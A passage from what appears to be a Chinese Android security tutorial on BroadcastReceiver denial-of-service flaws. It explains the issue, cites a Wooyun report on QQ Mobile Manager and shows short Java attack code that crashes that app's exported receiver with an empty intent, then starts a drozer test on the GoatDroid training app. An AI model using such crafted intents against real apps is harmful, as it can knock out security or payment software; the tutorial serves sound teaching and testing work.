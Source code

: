修复：

```
设置为签名验证
android:protectionLevel="signature"
 

```

### 4. 拒绝服务

#### [](#（1）漏洞介绍)（1）漏洞介绍

```
如果敏感的BroadcastReceiver没有设置相应的权限保护，很容易受到攻击。最常见的是拒绝服务攻击。拒绝服务攻击指的是，传递恶意畸形的intent数据给广播接收器，广播接收器无法处理异常导致crash。
拒绝服务攻击的危害视具体业务场景而定，比如一个安全防护产品的拒绝服务、锁屏应用的拒绝服务、支付进程的拒绝服务等危害就是巨大的。

```

#### [](#（2）漏洞复现)（2）漏洞复现

案例 1：[QQ 手机管家拒绝服务漏洞](https://wooyun.x10sec.org/static/bugs/wooyun-2013-042755.html)

 

漏洞描述：

```
恶意软件发送一个消息就可以轻松让QQ手机管家拒绝服务，安全防护完全失灵。
com.tencent.qqpimsecure.service.InOutCallReceiver这个广播组件没有对消息进行校验，导致空消息造成null point问题，直接crash.

```

攻击代码：

```
Intent i = new Intent();
ComponentName componetName = new ComponentName(  "com.tencent.qqpimsecure",  "com.tencent.qqpimsecure.service.InOutCallReceiver");        
i.setComponent(componetName);      
sendBroadcast(i);

```

![](https://bbs.pediy.com/upload/attach/202109/905443_7Y3CJBSTADM2BGM.png)

 

案例 2：fourgoats.apk 拒绝服务攻击崩溃

 

我们首先用 drozer 测试可导出组件

```
run app.broadcast.info  -a org.owasp.goatdroid.fourgoats

```
